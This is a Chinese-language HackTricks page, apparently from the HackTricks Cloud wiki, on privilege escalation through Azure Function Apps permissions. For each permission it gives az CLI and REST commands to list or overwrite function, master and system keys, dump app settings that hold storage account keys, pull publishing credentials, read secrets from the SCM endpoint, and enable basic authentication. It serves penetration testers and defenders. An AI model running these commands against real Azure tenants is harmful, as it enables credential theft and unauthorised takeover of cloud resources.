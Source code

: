 # Az - Functions App Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## Function Apps

查看以下页面以获取更多信息：

{% content-ref url="../az-services/az-function-apps.md" %}
[az-function-apps.md](../az-services/az-function-apps.md)
{% endcontent-ref %}

### Microsoft.Web/sites/host/listkeys/action

此权限允许列出指定函数的函数、主和系统密钥，但不包括主机密钥，使用以下命令： 

{% code overflow="wrap" %}
```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```
{% endcode %}

### Microsoft.Web/sites/functions/listKeys/action

此权限允许获取指定函数的主密钥： 

{% code overflow="wrap" %}
```bash
az rest --method POST --uri "https://management.azure.com/subscriptions/<subsription-id>/resourceGroups/<resource-group>/providers/Microsoft.Web/sites/<func-name>/functions/<func-endpoint-name>/listKeys?api-version=2022-03-01"
```
{% endcode %}

### Microsoft.Web/sites/host/functionKeys/write

此权限允许为指定的函数创建/更新函数密钥： 

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type functionKeys --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/masterKey/write

此权限允许为指定的函数创建/更新主密钥： 

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/systemKeys/write

此权限允许为指定的函数创建/更新系统函数密钥： 

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/config/list/action

此权限允许获取函数的环境变量。在这些变量中，可能会找到默认的环境变量 **`AzureWebJobsStorage`** 或 **`WEBSITE_CONTENTAZUREFILECONNECTIONSTRING`**，它们实际上包含一个 **访问函数的 blob 存储的帐户密钥，具有完全权限**。

{% code overflow="wrap" %}
```bash
az functionapp config appsettings list --name <func-name> --resource-group <res-group>
```
{% endcode %}



### `Microsoft.Web/sites/publishxml/action, (Microsoft.Web/sites/basicPublishingCredentialsPolicies/write)`

此权限允许列出所有发布配置文件，这基本上包含**基本身份验证凭据**：
```bash
# Gte creds
az functionapp deployment list-publishing-profiles \
--name basicauthenabled \
--resource-group Resource_Group_1 \
--output json
```
* **方法 SCM**

然后，您可以使用这些 **基本身份验证凭据访问您的函数应用的 SCM URL** 并获取环境变量的值：
```bash
# Get env variables values
curl -u '<username>:<password>' \
https://<app-name>.scm.azurewebsites.net/api/settings -v
```
_请注意，**SCM 用户名** 通常是字符 "$" 后跟应用名称，因此：`$<app-name>`。_

这些环境变量包含存储函数应用数据的存储帐户的 **AccountKey**，允许控制该存储帐户。

如果您看到这些凭据被 **REDACTED**，那是因为您 **需要启用 SCM 基本身份验证选项**，为此您需要第二个权限 (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write):`

{% code overflow="wrap" %}
```bash
# Enable basic authentication for SCM
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'

# Enable basic authentication for FTP
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'
```
{% endcode %}



{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
